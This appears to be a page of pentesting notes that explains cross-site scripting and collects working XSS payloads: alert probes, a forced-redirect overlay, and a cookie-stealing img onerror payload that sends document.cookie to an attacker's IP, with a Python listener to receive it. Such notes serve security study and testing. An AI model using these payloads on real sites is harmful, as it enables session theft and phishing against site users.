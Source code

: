 **Cross-Site Scripting** (XSS) is a type of security vulnerability commonly found in web applications. It occurs when an attacker injects malicious code, usually in the form of scripts, into a web page or application, which is then executed by unsuspecting users who visit that page. The injected code can steal sensitive data, manipulate web content, or perform actions on behalf of the user without their consent.

There are three main types of XSS attacks:

1. **Stored XSS:** The malicious code is permanently stored on a server and is served to multiple users when they access a specific page or resource. This type of XSS can have a long-lasting impact as it affects all subsequent visitors to the compromised page.
    
2. **Reflected XSS:** In this case, the injected code is reflected off a web server and immediately executed in response to a user's request. Typically, the attacker tricks the user into clicking on a malicious link containing the payload.
    
3. **DOM-based XSS:** This type of XSS occurs when the client-side script in a web page manipulates the Document Object Model (DOM) without proper sanitization or validation, allowing an attacker to execute malicious code on the client-side.
# Basic script
```bash
<script>alert("hi")</script>
```

# Image script
With this type of script we are trying to upload an image, but providing a wrong source. We generate this error on purpose to execute the *onerror* javascript function that prints hi in a pop-upp suing alert.
```bash
<img src='x' onerror=alert("hi") />
```

Also, we can use the onclick javascript's function. If we upload an image with a valid source when we click the image it will spawn the pop-up with the alert message.
```bash
<img src"<valid url>" onclick=alert("hi") />
```

#### Payload example

An example of a payload that an attacker might use is one crafted with an <img> tag and an onerror attribute. This payload creates a button that notifies the user of a simulated "error" on the website. The malicious script effectively prevents the user from interacting with any other elements on the page, forcing them to click the button. Upon clicking, the user is redirected to a malicious website controlled by the attacker.  

```bash
<img src="x" onerror="(function(){var m=document.createElement('div');m.style='position:fixed;top:0;left:0;width:100%;height:100%;background-color:rgba(0,0,0,0.5);display:flex;justify-content:center;align-items:center;';var a=document.createElement('div');a.style='background-color:white;padding:20px;border-radius:5px;text-align:center;';var msg=document.createElement('p');msg.textContent='Error occurred!';var b=document.createElement('button');b.textContent='Go to [example.com](http://example.com)';b.onclick=function(){window.location.href='[http://example.com](http://example.com)';};a.appendChild(msg);a.appendChild(b);m.appendChild(a);document.body.appendChild(m);})();" />
```

# Obtaining Cookies
If we can introduce XSS code into a petition that will be processed by the administration server, we can try to obtain it's cookie by running the following code: 
```bash
<img src=x onerror=fetch("own_ip:port/"+document.cookie);>
```
With this petition we induce the victim server to execute JS code. With this code the server tries to execute  a wrong image and on the error sends it's cookie to our machine. Before executing this payload is necessary to open a local port.
```bash
python3 -m http.server 80
```

# SVG script
When this code is injected into a web page, the SVG image will be loaded, and as soon as it's loaded, the `onload` event will fire, executing the JavaScript code and displaying the "1" in a pop-up alert box. It uses an SVG (Scalable Vector Graphics) element to trigger the JavaScript alert.

```bash
<svg onload=alert(1)>
```

- Example:
If we are attacking a web where whatever you insert will be assigned to the variable query, this option of XSS could be useful.
```bash
function trackSearch(query) {
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}

QUERY="><svg onload=alert(1)>
```

# DOM XSS using an anchor in jQuery
```bash
javascript:alert(document.cookie)
```
The code executes on the client side, within the user's browser. It doesn't rely on the server processing user input or delivering malicious content in the server response. Instead, it relies on manipulating the Document Object Model (DOM) of the current web page.

If an attacker can inject this code into a web page by manipulating user-generated content (e.g., through input fields or URLs), the injected code will execute within the user's browser. For example, an attacker might craft a URL like `https://example.com/?input=javascript:alert(document.cookie)` and trick a user into clicking it.

